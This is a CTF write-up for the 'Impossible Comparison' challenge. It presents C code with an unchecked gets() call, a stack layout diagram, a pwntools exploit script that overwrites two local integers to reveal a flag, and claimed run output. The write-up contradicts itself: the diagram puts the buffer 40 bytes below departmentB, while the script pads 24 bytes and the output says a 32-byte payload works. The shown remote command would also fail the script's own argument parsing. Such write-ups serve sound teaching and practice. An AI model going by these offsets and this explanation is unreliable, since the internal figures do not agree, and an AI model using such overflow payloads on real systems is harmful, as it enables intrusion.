```yaml
---
title: Impossible Comparison
published: 2025-10-16
description: A detailed walkthrough of the Impossible Comparison CTF challenge.
image: ./impossible_comparison.png
tags: [CTF, Binary Exploitation, Buffer Overflow]
category: CTF Writeups
draft: false
series: CTF Writeups
---
```


# Impossible Comparison

**Challenge**: Impossible Comparison
**Category**: Binary Exploitation
**Difficulty**: Easy
**Flag**: `flag{buff3r_0v3rfl0w_m4k3s_1mp0ss1bl3_p0ss1bl3}`

## Analysis

The binary has a simple buffer overflow vulnerability. The `vulnerable()` function declares two integers `departmentA` and `departmentB` with initial values 1 and 2 respectively, but requires them to be equal to print the flag. Here's the vulnerable code:

```c
void vulnerable() {
    int departmentA = 1;
    int departmentB = 2;
    char buffer[0x20];

    // read flag
    FILE* flag_file;
    flag_file = fopen("./flag.txt", "r");
    if (flag_file == NULL) {
        puts("[-] Flag file not found.");
        return;
    }
    fgets(flag, sizeof(flag), flag_file);
    fclose(flag_file);

    // vulnerable input
    gets(buffer);

    // compare departments
    if (departmentA == departmentB) {
        printf("[+] Flag: %s", flag);
    } else {
        printf("[-] Departments are not equal. Department A: %d, Department B: %d\n", departmentA, departmentB);
    }
}
```

The vulnerability is in the `gets(buffer)` call, which doesn't check input length and allows overflowing the 32-byte buffer to overwrite the stack variables.

### Stack Layout

```
Stack Layout (higher addresses)
┌─────────────────────┐
│       saved rbp     │ ← rbp
├─────────────────────┤
│   departmentA (4B)  │ ← rbp-0x4  (stores value 1)
├─────────────────────┤
│   departmentB (4B)  │ ← rbp-0x8  (stores value 2)
├─────────────────────┤
│   flag_file* (8B)   │ ← rbp-0x10 (FILE pointer)
├─────────────────────┤
│                     │
│   buffer (32B)      │ ← rbp-0x30 (our input)
│   [0x20 bytes]      │
│                     │
└─────────────────────┘
Lower Addresses
```

## Solution

We need to overflow the buffer to overwrite both `departmentA` and `departmentB` with the same value.

### Exploit Script

```python
#!/usr/bin/env python3
from pwn import *

def main():
    if len(sys.argv) > 1 and sys.argv[1] == "REMOTE":
        host = sys.argv[2] if len(sys.argv) > 2 else "localhost"
        port = int(sys.argv[3]) if len(sys.argv) > 3 else 1337
        conn = remote(host, port)
    else:
        conn = process('./chall')

    # Calculate offsets
    buffer_size = 0x20  # 32 bytes
    padding_to_departmentB = 0x20 - 0x8  # 24 bytes
    padding_to_departmentA = 0x20 - 0x4  # 28 bytes

    # Create payload
    # Fill buffer + overwrite departmentB and departmentA with same value
    payload = b"A" * padding_to_departmentB  # Fill up to departmentB
    payload += p32(1)  # Overwrite departmentB with 1
    payload += p32(1)  # Overwrite departmentA with 1

    print(f"[+] Sending payload of length: {len(payload)}")
    conn.sendline(payload)

    # Receive response
    try:
        response = conn.recvall(timeout=2).decode()
        print(f"[+] Response: {response}")
    except:
        response = conn.recv().decode()
        print(f"[+] Response: {response}")

    conn.close()

if __name__ == "__main__":
    main()
```

### Execution

```bash
# Local execution
$ python3 exploit.py
[+] Sending payload of length: 32
[+] Response: [+] Flag: flag{buff3r_0v3rfl0w_m4k3s_1mp0ss1bl3_p0ss1bl3}

# Remote execution
$ python3 exploit.py REMOTE HOST=example.com PORT=1337
[+] Sending payload of length: 32
[+] Response: [+] Flag: flag{buff3r_0v3rfl0w_m4k3s_1mp0ss1bl3_p0ss1bl3}
```

The exploit successfully overflows the buffer to make both department variables equal, bypassing the comparison and retrieving the flag.